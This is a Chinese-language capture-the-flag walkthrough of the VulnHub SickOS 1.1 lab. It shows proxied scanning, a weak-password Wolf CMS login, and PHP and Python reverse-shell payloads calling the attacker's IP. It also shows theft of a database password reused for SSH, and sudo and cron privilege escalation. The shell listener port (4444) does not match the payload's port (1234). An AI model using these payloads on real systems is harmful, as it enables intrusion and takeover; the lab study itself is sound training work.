靶场下载地址：https://download.vulnhub.com/sickos/sick0s1.1.7z

下载解压导入到虚拟机

**环境：Windows  VMware Kali**

**连接方式： NAT**


**评级：简单**

# 1. 信息收集

**信息收集要收集完全，宁愿多用点时间，否则后面打不动的时候还要再重新收集，这样太浪费时间。我们尽可能的按照流程第一次收集全。**

## 1.1 主机发现


```shell
#查看kali IP 地址
ip a
```


```shell
# 用来主机发现 用于对指定的IP地址范围内的主机进行主机存活检测，而不进行端口扫描。-sn参数表示“ping扫描”，它使用ICMP ECHO请求（ping）或者TCP SYN扫描（默认情况下，nmap会尝试使用ICMP ECHO请求，如果失败，则尝试使用TCP SYN扫描）来检测目标主机是否存活。
 nmap -sn 192.168.125.1/24
```

## 1.2 端口扫描


```shell
# -min-rate 10000：设置扫描速率的最小值为10000个包/秒。这个参数可以加快扫描速度，太快了扫描不准，太慢了浪费时间，综合考虑选择10000。
# -p-：扫描目标主机的所有端口，包括1到65535之间的所有端口。
# 192.168.1.1：指定要扫描的目标主机的IP地址。
nmap -min-rate 10000 -p- 192.168.125.141
```

由于是局域网环境没有WAF 不用考虑网络延迟的情况，扫描速度非常快。

扫描结果：

```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 23:01 EDT
Nmap scan report for 192.168.125.141
Host is up (0.0022s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
3128/tcp open   squid-http
8080/tcp closed http-proxy
MAC Address: 00:0C:29:D3:CA:7E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 15.83 seconds
```


### 1.2.1 TCP 扫描

**扫描结果：**

```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 23:02 EDT
Nmap scan report for 192.168.125.141
Host is up (0.00043s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 00:0C:29:D3:CA:7E (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.69 seconds
```


打开 3128 端口：




> Squid是一款开源的代理服务器,常用来部署代理池和Web缓存。功能主要有:
>
> 1. 代理服务:Squid可以作为HTTP、HTTPS、FTP等网络协议的代理服务器,帮助客户端间接访问网络资源。
> 2. 缓存服务:Squid可以缓存常访问的Web内容,加速客户端访问网站的速度。
> 3. 访问控制:Squid可以基于URL、IP地址等条件控制客户端的网络访问。
> 4. 日志分析:Squid可以记录客户端的访问日志,用于网络监控和分析。
>
> Squid的主要工作流程是:
>
> 1. 客户端向Squid代理发送网络访问请求。
> 2. Squid检查该请求是否在本地缓存中,如果是直接返回缓存内容。
> 3. 如果不是Squid则向源网站请求数据,并缓存返回的内容。
> 4. Squid将内容返回给客户端,并记录访问日志。
> 5. 管理员可以定期分析Squid的访问日志,检查客户端的浏览习惯和网站访问情况。
>
> Squid常用于:
>
> 1. 加速网络访问:部署在网关上为内网客户端提供缓存服务。
> 2. 网络监控:通过Squid的日志分析客户端的上网行为。
> 3. 访问控制:基于Squid的ACL列表限制客户端访问某些网站。
> 4. 隐匿真实IP:作为透明代理隐藏客户端IP,显示Squid服务器IP。


使用代理对目标服务器进行扫描：

```
gobuster dir -u http://192.168.125.141 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy http://192.168.125.141:3128
```


扫描结果：

```shell
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.141
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Proxy:                   http://192.168.125.141:3128
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/09 02:35:39 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 21]
/connect              (Status: 200) [Size: 109]
/robots               (Status: 200) [Size: 45]
/server-status        (Status: 403) [Size: 296]
Progress: 220216 / 220561 (99.84%)
```


### 1.2.2 设置代理访问：





**robots:** 



**index:**


**connect:**




综上所述，有价值的信息是 `/wolfcms`

访问:  




继续对CMS进行目录扫描：

```shell
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.141/wolfcms
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Proxy:                   http://192.168.125.141:3128
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/09 02:58:14 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 301) [Size: 325] [--> http://192.168.125.141/wolfcms/docs/]
/index                (Status: 200) [Size: 3975]
/public               (Status: 301) [Size: 327] [--> http://192.168.125.141/wolfcms/public/]
/config               (Status: 200) [Size: 0]
/favicon              (Status: 200) [Size: 894]
/robots               (Status: 200) [Size: 0]
/wolf                 (Status: 301) [Size: 325] [--> http://192.168.125.141/wolfcms/wolf/]
/composer             (Status: 200) [Size: 403]
Progress: 219508 / 220561 (99.52%)
===============================================================
2023/05/09 02:59:52 Finished
===============================================================
```

没发现有价值的信息。

# 2. 漏洞利用

通过搜索发现管理页面   弱口令 `admin/admin` 登录后台




这里通过修改网页上的PHP 代码 反弹shell ，也可以在 files 处上传一句话木马（哥斯拉冰蝎等等）




把PHP一句话木马插入到文件中：

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.125.133/1234 0>&1'");
```




kali 开启监听：

```
nc -lvnp 4444
```


访问 wolfcms 首页 即可获取到shell




# 3. 提权


当前目录下面存在 config.php

```
cat config.php
```


发现数据库密码

```shell
<?php

// Database information:
// for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
// The path can only be absolute path or :memory:
// For more info look at: www.php.net/pdo

// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```


查看用户：

```
cat /etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
landscape:x:104:109::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
sickos:x:1000:1000:sickos,,,:/home/sickos:/bin/bash
mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false
```

通过 `uname -a`  可以看到计算机的名字是 

```
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 athlon i386 GNU/Linux
```


使用 `sickos 用户  密码 john@123` ssh 登录

```
ssh sickos@192.168.125.141
```


## 3.1 sudo 提权

```bash
sickos@SickOs:~$ id
uid=1000(sickos) gid=1000(sickos) groups=1000(sickos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
sickos@SickOs:~$ sudo -l
[sudo] password for sickos:
Matching Defaults entries for sickos on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:~$ sudo /bin/bash
root@SickOs:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SickOs:~#
```


## 3.2 计划任务提权：


```shell
cat /etc/crontab


17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

但是里面并没有


查看 `/etc/cron.d` 目录 发现 automate 文件 看起来像一个计划任务 每分钟执行一次命令




```
cat  /var/www/connect.py
```


```
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

写入 python 反弹shell

```py
echo 'import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.125.133",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])'  >>/var/www/connect.py
```


kali 开启监听（最多等待1分钟 即可收到反弹 shell ）：

```
nc -lvnp 5555
```



